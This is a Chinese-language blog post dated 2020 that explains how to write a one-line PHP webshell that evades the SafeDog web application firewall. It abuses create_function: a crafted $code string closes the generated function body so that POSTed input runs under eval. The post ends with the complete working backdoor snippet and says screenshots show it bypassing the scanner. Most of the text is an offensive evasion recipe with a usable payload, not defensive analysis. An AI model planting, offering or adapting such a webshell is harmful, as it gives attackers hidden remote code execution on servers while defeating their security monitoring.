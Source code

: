 # 过狗一句话编写

[2020-04-13]()

安全狗查杀一句话的时候，通常检测eval 和 \$\_POST\[x\]有没有同时出现，正常的POST数据不拦截，然后我们将POST来的数据放到存在代码执行漏洞的函数中，这样，POST来的数据就被执行了。  

因此就想着试一试.选择的函数是create\_function函数，create\_function函数接收两个参数\$args 和 \$code 然后组成新函数function\_lambda\_func\(\$args\)\{\$code;\} 并eval\(function\_lambda\_func\(\$args\)\{\$code;\}\)，那么我们只要构造\$code来闭合\}然后将自己的代码放到函数体外面就可以执行了。

### [](#构造-code "构造$code")构造\$code

\$code = “n;\}\$\_POST\[x\];/\*”;

解释一下构造的\$code:

* 双引号中\$\_POST\[x\]被执行\(这里以提交x=phpinfo\(\);为例\)
* ;来结束语句
* \}来结束函数体

phpinfo\(\);;就在函数体外面被eval执行了

/\*注释多余的代码

最终代码：`eval(function_lambda_func($args){n;}phpinfo();;/*})`

那么phpinfo\(\)就被执行了.

如图：  
![](1.png)  
过狗测试：  
![](2.png)

最终代码：

```
<?php 
    $args = "tony";
    $code = "n;}$_POST[x];/*";
    echo create_function('$args',$code);
?>
```
